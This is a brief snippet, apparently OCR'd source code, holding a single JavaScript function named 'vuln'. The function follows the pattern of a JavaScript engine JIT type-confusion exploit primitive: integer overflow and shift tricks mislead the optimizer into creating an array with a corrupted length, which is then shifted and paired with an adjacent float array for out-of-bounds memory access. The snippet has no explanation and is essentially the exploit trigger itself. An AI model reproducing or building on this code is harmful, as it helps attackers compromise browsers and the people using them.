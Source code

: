 function vuln(a) {
  var y = 0x7fffffff;
  if (a == NaN) y = NaN;
  if (a) y = -1;
  let z = (y + 1) >> 31;
  z = 0x80000000 - Math.sign(z|1);
  if(a) z = 0;
  var arr = new Array(0-Math.sign(z));
  arr.shift();
  var cor = [1.1, 1.2, 1.3];
  return [arr, cor];
}

